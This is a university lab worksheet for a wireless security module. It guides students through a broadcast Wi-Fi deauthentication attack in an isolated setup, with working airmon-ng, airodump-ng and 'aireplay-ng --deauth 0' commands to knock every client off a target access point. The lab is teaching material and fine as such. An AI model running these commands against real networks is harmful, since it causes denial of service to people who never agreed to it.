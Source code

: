 
## Module Code: 6CSEF005W  
**Module name:** Wireless Network Security  
**Lab activity:** Broadcast Deauthentication Attack  
**Author:** Dr Ayman El Hajjar  

---

#  Lab Activity: Deauthentication Jamming Attack (Broadcast)

---
## How todo this lab

In this lab you are working in pairs. 
- One pc will act as the attacker
- Another PC will act as the Access Point

###  Objective

In this lab, you will perform a broadcast deauthentication attack that targets all clients connected to a specific wireless access point. This demonstrates how attackers can cause denial of service (DoS) by abusing the Wi-Fi protocol.

---

###  Warning

Deauthentication attacks disrupt wireless networks. Run this only in an isolated lab environment.

---

## Access point steps

- go to the respository
```bash
cd 6CSEF005W/APconfigs
```

- Run the AP by tying:
```bash
chmod +x setup_ap_open.sh
sudo ./setup_ap_open.sh
```



## Attacker steps

##  Step 1: Identify Target AP

Use `airodump-ng` to gather the BSSID and channel:

```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
```

> Note down the **BSSID** and **channel** of the AP to target.

---

## 🔥 Step 2: Launch Broadcast Deauth Attack

Use the provided script:

```bash
sudo ./deauth_jammer.sh wlan0mon <BSSID>
```

Or run manually:

```bash
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon
```

> This will send continuous deauth frames to all connected clients.

---

##
 Step 3: Observe Client Disconnections

On the victim device:
- Check if Wi-Fi disconnects automatically
- Try reconnecting — it may repeatedly fail
- Observe `airodump-ng` for drops in connected clients

---

##
 Discussion Points

- Why does this attack work even with WPA2?
- How can organisations protect against it?
- What are the legal/ethical implications of using jamming tools?

---

##
 Cleanup

```bash
sudo pkill aireplay-ng
sudo airmon-ng stop wlan0mon
```

---

##  Optional Screenshots

Include in `tasks/img/`:
- `airodump-ng` before/after
- Aireplay-ng output

---

## Summary


| Phase     | Tool               | Purpose                            |
|-----------|--------------------|------------------------------------|
| Recon     | `airodump-ng`      | Identify AP and channel            |
| Attack    | `aireplay-ng`      | Broadcast deauth frames            |
| Observe   | Client Wi-Fi status| Check disconnects and reconnection |

---
